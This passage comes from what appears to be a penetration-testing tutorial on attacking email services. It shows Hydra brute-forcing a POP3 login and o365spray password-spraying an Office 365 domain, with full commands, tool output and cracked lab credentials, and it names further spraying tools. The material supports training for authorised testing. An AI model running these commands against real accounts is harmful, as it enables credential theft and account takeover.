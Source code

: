 Hydra v9.1 (c) 2020 by van Hauser/THC &amp; David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
</code></pre>
<p>If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to perform password spray using tools like <code>Hydra</code>, but these tools are usually blocked. We can instead try to use custom tools such as <a href="https://github.com/0xZDH/o365spray">o365spray</a> or <a href="https://github.com/dafthack/MailSniper">MailSniper</a> for Microsoft Office 365 or <a href="https://github.com/ustayready/CredKing">CredKing</a> for Gmail or Okta. Keep in mind that these tools need to be up-to-date because if the service provider changes something (which happens often), the tools may not work anymore. This is a perfect example of why we must understand what our tools are doing and have the know-how to modify them if they do not work properly for some reason.</p>
<h4>O365 Spray - Password Spraying</h4>
<pre><code class="language-shell-session">[!bash!]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

&gt;----------------------------------------&lt;

   &gt; version        :  2.0.4
   &gt; domain         :  msplaintext.xyz
   &gt; spray          :  True
   &gt; password       :  March2022!
   &gt; userfile       :  usersfound.txt
   &gt; count          :  1 passwords/spray
   &gt; lockout        :  1.0 minutes
   &gt; spray_module   :  oauth2
   &gt; rate           :  10 threads
   &gt; safe           :  10 locked accounts
   &gt; timeout        :  25 seconds
   &gt; start          :  2022-04-14 12:26:31

&gt;----------------------------------------&lt;

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] <a class="__cf_email__" data-cfemail="cba7aebcaea58ba6b8bba7aaa2a5bfaeb3bfe5b3b2b1" href="/cdn-cgi/l/email-protection">[email protected]</a>:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'
